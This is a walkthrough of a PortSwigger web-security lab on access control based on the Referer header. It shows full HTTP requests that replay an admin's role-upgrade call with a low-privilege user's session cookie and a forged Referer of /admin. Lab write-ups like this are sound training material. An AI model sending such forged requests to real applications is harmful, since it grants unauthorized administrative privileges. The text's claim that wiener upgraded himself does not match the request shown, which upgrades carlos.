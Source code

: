 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f068d0fd-917f-4b17-9a95-6255eb94d112)

## Solution:

> Some websites **base access controls on the Referer header submitted in the HTTP reques**t. The Referer header is generally added to requests by browsers to indicate the page from which a request was initiated.
>
> For example, suppose an application robustly enforces access control over the main administrative page at **/admin**, but for sub-pages such as **/admin/deleteUser** only inspects the Referer header. If the 
> Referer 
> header contains the main **/admin** URL, **then the request is allowed**.
> 
> In this situation, since the Referer header can be fully controlled by an attacker, they can forge direct requests to sensitive sub-pages, supplying the required Referer header, and so gain unauthorized access. 

#### Login as admin -

First lets familiarize ourselves by logging in as admin.

Clicking on admin panel link after logging in, takes us to this page where we can change privileges of a user.

When we upgrade carlos user privileges, the request sent is as follows,

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=j2REEeD3vHVXEKzXE7q1Hi98AQ2pCmsz
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

We can see that it has a **referrer header** which points to **/admin**.

## Login as wiener -

Our goal now is to upgrade ourselves

Grab the cookie value of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c0ffd4fc-b436-4d69-8ccc-3acc4adac1f2)


Cookie of admin -  `j2REEeD3vHVXEKzXE7q1Hi98AQ2pCmsz`
Cookie of wiener - `5u7PdoLWbATX6gzuN3kWxwBpsYbPC7dd`

Send the request where the privileges were changed by admin but by replacing admin cookie with wiener's cookie (non-admin)

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=5u7PdoLWbATX6gzuN3kWxwBpsYbPC7dd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

The focus of this lab is , if referrer based verification is made, then we can explioit it

#### With /admin in referrer header

We get `302 - redirect`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e136b2b4-c355-4cfa-abb0-699f5c526b90)

#### Without /admin in referrer header

We get `401 - Unauthorized`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a884ecb4-5ca1-421f-96a1-6db2f5667f25)

Thus we solved the lab by upgrading ourselves(wiener) to higher privilege.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4d1440a-1f36-489f-b2fd-6dda2a93300d)




